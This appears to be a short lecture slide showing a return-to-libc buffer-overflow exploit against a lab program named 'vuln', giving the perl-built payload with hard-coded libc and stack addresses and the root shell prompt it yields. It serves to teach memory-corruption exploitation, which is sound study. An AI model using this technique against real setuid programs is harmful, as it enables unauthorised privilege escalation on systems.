

# the ret-to-libc exploit
$ ./vuln $(perl -e 'print "ABCD"x7 . '\x80\x0d\xed\xb7\xf0\x68\xec\xb7\x5b\xfe\xff\xbf"')

Should give us:

sh-3.2#